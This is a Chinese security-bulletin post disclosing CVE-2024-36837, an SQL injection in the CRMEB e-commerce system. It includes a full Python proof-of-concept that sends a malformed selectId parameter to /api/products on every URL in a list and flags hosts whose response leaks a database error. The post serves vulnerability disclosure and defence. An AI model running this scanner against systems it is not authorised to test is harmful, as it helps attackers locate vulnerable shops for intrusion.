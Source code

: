 #  CVE-2024-36837｜CRMEB电商管理系统存在SQL 注入漏洞（POC）   
alicy  信安百科   2024-07-01 19:45  
  
**0x00 前言**  
  
  
西安众邦网络科技有限公司是一家致力于互联网软件设计、研发、销售为一体的高新技术企业。自2014年成立以来，众邦科技将客户关系管理与电子商务应用场景进行深度集成，围绕新零售、智慧商业、企业数字化经营等课题进行探索创新，打造出中国私有化独立应用电商软件知名品牌——CRMEB。  
  
  
CRMEB通过“去中心化”的新零售解决方案，助力企业实现公域流量向私域流量的转化；以性能稳定、高并发、云部署的核心技术赋能开发者，提速企业数字化；通过开源核心产品、核心技术，吸引第三方开发者加入并打造出CRMEB产品生态，为广大商家提供更多应用选择与更优质的服务。  
  
  
CRMEB开发有开源打通版、标准版、Pro版、多店版、多商户、Java版、外贸版、知识付费等多款系统。  
  
  
  
**0x01 漏洞描述**  
  
  
CRMEB v.5.2.2版本存在安全漏洞，该漏洞源于存在SQL注入漏洞，允许远程攻击者通过ProductController.php文件中的getProductList函数获取敏感信息。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-36837  
  
  
  
**0x03 影响版本**  
  
  
CRMEB v.5.2.2  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/phtcloud-dev/CVE-2024-36837  
```
import requests
def check_vulnerability(url):
    # Remove trailing slash if present
    if url.endswith('/'):
        url = url[:-1]
    # Construct the URL with the required endpoint
    test_url = f"{url}/api/products?limit=20&priceOrder=&salesOrder=&selectId=)"
    try:
        response = requests.get(test_url)
        # Check if the response contains the specific string indicating a vulnerability
        if 'PDOConnection.php' in response.text:
            print(f"\033[31m[HIGH RISK]\033[0m Vulnerability found in: {url}")
        else:
            print(f"\033[32m[SAFE]\033[0m No vulnerability found in: {url}")
    except requests.RequestException as e:
        print(f"\033[33m[ERROR]\033[0m Could not connect to {url}. ")#Error: {e}")
def main():
    # Read URLs from url.txt
    with open('url.txt', 'r') as file:
        urls = file.readlines()

    for url in urls:
        url = url.strip()  # Remove any leading/trailing whitespace characters
        if not url.startswith('http'):
            url = 'http://' + url  # Add http scheme if missing
        check_vulnerability(url)
if __name__ == "__main__":
    main()
```  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/crmeb/CRMEB  
  
  
https://github.com/phtcloud-dev/CVE-2024-36837  
  
  
  
  
推荐阅读：  
  
  
[N/A｜FastAdmin 框架存在任意文件读取漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485447&idx=2&sn=6ee7e33a49aaf2eaa81f97abf7fe586d&chksm=cea961def9dee8c8b61f55e8d1f5cd9d45b460ac0f058cc175d477ff8a9c9faa8167f58f1f42&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-34102｜Magento Open Source XXE漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485447&idx=3&sn=073973be787853673e6f92729b9b6bd6&chksm=cea961def9dee8c8b1e13c7d93494973865443bae586bea7e0f392ece2672672a61f87e951d1&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-28995｜SolarWinds Serv-U任意文件下载漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485428&idx=1&sn=e168a5c05c00d3b3468b6eb316a029ae&chksm=cea96e2df9dee73b2dab349126cf2d0acf586461e051ab888294ab61b7830d5db2dd852592a4&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
